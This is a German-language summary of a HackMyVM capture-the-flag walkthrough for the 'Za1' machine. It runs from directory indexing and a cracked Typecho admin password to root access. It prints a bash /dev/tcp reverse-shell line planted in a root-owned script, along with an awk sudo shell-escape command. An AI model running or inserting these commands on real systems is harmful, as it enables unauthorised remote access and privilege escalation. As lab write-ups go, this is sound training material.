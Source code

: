 # Za1 - HackMyVM - Easy

**Schwierigkeitsgrad:** Easy 🟢

---

## ℹ️ Maschineninformationen

*   **Plattform:** HackMyVM
*   **VM Link:** [https://hackmyvm.eu/machines/machine.php?vm=Za1](https://hackmyvm.eu/machines/machine.php?vm=Za1)
*   **Autor:** DarkSpirit

![Za1 Machine Icon](Za1.png)

---

## 🏁 Übersicht

Dieser Bericht dokumentiert den Penetrationstest der virtuellen Maschine "Za1" von HackMyVM. Das Ziel war die Erlangung von Systemzugriff und die Ausweitung der Berechtigungen bis auf Root-Ebene. Die Maschine wies Schwachstellen im Webbereich auf, darunter einen veralteten Apache-Webserver mit Directory Indexing, der zur Offenlegung eines Datenbank-Dumps führte. Dieser Dump enthielt gehashte Passwörter für das Typecho-CMS, von denen eines (für den Benutzer 'admin') geknackt werden konnte. Initialer Zugriff als `www-data` wurde über eine Authenticated Remote Code Execution (RCE) in Typecho 1.2.1 oder einen direkten PHP-Shell-Upload erreicht. Die Privilegien-Eskalationskette führte von der `www-data`-Shell über eine horizontale Eskalation zum Benutzer `za_1` (durch Ausnutzung einer `sudo` NOPASSWD-Fehlkonfiguration für das Binary `awk`) und schließlich zur Erlangung von Root-Rechten durch die Modifikation eines für `za_1` schreibbaren, Root-eigenen Skripts (`.root/back.sh`) im Home-Verzeichnis von `za_1`.

---

## 📖 Zusammenfassung des Walkthroughs

Der Pentest gliederte sich in folgende Hauptphasen:

### 🔎 Reconnaissance

*   Identifizierung der Ziel-IP (192.168.2.53) im lokalen Netzwerk mittels `arp-scan`.
*   Hinzufügen des Hostnamens `za1.hmv` zur lokalen `/etc/hosts`.
*   Umfassender Portscan (`nmap`), der Port 22 (SSH - OpenSSH 7.6p1) und Port 80 (HTTP - Apache httpd 2.4.29) als offen identifizierte und die Webanwendung als "Typecho 1.2.1" erkannte.

### 🌐 Web Enumeration

*   Scan des Apache-Webservers auf Port 80 mit `nikto`, der fehlende Sicherheits-Header, veraltete Apache-Version und kritisches Directory Indexing in `/install/`, `/sql/` und `/var/` identifizierte.
*   Verzeichnis-Brute-Force mit `feroxbuster` und `gobuster` bestätigte Weiterleitungsstrukturen und das Directory Indexing, insbesondere im `/sql/` Verzeichnis.
*   Manuelle Überprüfung von `http://za1.hmv/sql/` enthüllte Dateilisting, welches die SQL-Dateien `new.sql` und `sercet.sql` preisgab.
*   Ein Versuch eines Local File Inclusion (LFI)-Angriffs über `index.php?s=file:///.../etc/passwd` schlug fehl.

### 💻 Initialer Zugriff

*   Herunterladen und Analyse von `new.sql` (aus dem `/sql/` Verzeichnis), welche eine SQLite-Datenbank der Typecho-Installation enthielt.
*   Extraktion von Benutzer-Hashes aus der `typechousers`-Tabelle.
*   Knacken des PHPass-Hashes für den Benutzer `admin` mittels `john the Ripper`, was das Passwort `123456` offenbarte.
*   Erfolgreicher Login als `admin` in das Typecho-Admin-Panel.
*   Ausnutzung einer Authenticated Remote Code Execution (RCE) Schwachstelle in Typecho 1.2.1 über die erneute Ausführung der `install.php` (durch Manipulation der Datenbankkonfiguration) oder alternativer Upload einer PHP-Reverse-Shell über die Admin-Funktion (`write-post.php`).
*   Einrichtung eines Netcat-Listeners auf dem Angreifer-System.
*   Erfolgreiche Etablierung einer Reverse Shell als Benutzer `www-data`.

### 📈 Privilege Escalation

*   Von der `www-data` Shell: System-Enumeration. Prüfung der `sudo` Berechtigungen (`sudo -l`) zeigte eine kritische Fehlkonfiguration: `(za_1) NOPASSWD: /usr/bin/awk`.
*   Ausnutzung der Sudo-Fehlkonfiguration für `awk` (mit NOPASSWD für `za_1`) in Kombination mit der GTFOBins-Methode (`sudo awk 'BEGIN {system("/bin/sh")}'`) zur horizontalen Privilegien-Eskalation auf Benutzer `za_1`.
*   Von der `za_1` Shell: Weitere Enumeration des Home-Verzeichnisses. Das versteckte Verzeichnis `.root/` enthielt das Skript `back.sh`, das Root-Besitz hatte, aber für den Benutzer `za_1` schreibbar (`-rwxrwxrwx`) war.
*   Modifikation des Skripts `back.sh` mit `nano`, um eine Reverse Shell (`bash -i >&/dev/tcp/192.168.2.199/5555 0>&1`) zur Angreifer-Maschine einzufügen.
*   Warten auf die Ausführung des modifizierten Skripts (vermutlich über einen Cronjob oder einen Systemdienst).
*   Erfolgreiche Erlangung einer interaktiven Root-Shell.

### 🚩 Flags

*   **User Flag:** `/home/za_1/user.txt`
    `flag{ThursD0y_v_wo_50}`
*   **Root Flag:** `/root/root.txt`
    `flag{qq_group_169232653}`

---

## 🧠 Wichtige Erkenntnisse

*   **Veraltete Software:** Die Verwendung veralteter Webserver (Apache) und CMS-Software (Typecho) birgt bekannte Schwachstellen, die leicht ausgenutzt werden können.
*   **Fehlkonfigurationen des Webservers (Directory Indexing):** Directory Indexing ist eine schwerwiegende Informationslecks, die Angreifern direkten Zugriff auf Dateistrukturen und sensible Dateien (wie Datenbank-Dumps) ermöglichen.
*   **Schwache Passwortrichtlinien:** Die Verwendung von einfachen und gängigen Passwörtern wie "123456" für Administratorkonten stellt ein enormes Sicherheitsrisiko dar und ermöglicht einen schnellen initialen Zugriff.
*   **Unsichere Installationsskripte (Authenticated RCE):** Installationsskripte, die nach der Bereitstellung der Anwendung weiterhin ausführbar sind oder deren Logik unsichere Operationen zulässt (z.B. Dateischreiben durch Manipulation von Datenbankpfaden), sind ein direkter Weg zu Remote Code Execution für authentifizierte Benutzer.
*   **Sudo Fehlkonfigurationen (GTFOBins):** NOPASSWD-Einträge für Binaries in der `sudoers`-Datei, die zur Shell-Erlangung missbraucht werden können (wie `awk`), sind ein klarer und direkter Weg zur Privilegien-Eskalation.
*   **Schreibbare Root-eigene Skripte:** Skripte, die unter Root-Rechten ausgeführt werden (z.B. durch Cronjobs) aber für niedrigprivilegierte Benutzer schreibbar sind, sind eine extrem gefährliche Schwachstelle und ermöglichen die direkte Erlangung von Root-Rechten.

---

## 📄 Vollständiger Bericht

Eine detaillierte Schritt-für-Schritt-Anleitung, inklusive Befehlsausgaben, Analyse, Bewertung und Empfehlungen für jeden Schritt, finden Sie im vollständigen HTML-Bericht:

[**➡️ Vollständigen Pentest-Bericht hier ansehen**](https://alientec1908.github.io/Za1_HackMyVM_Easy/)

---

*Berichtsdatum: 18. Juni 2025*
*Pentest durchgeführt von Ben*
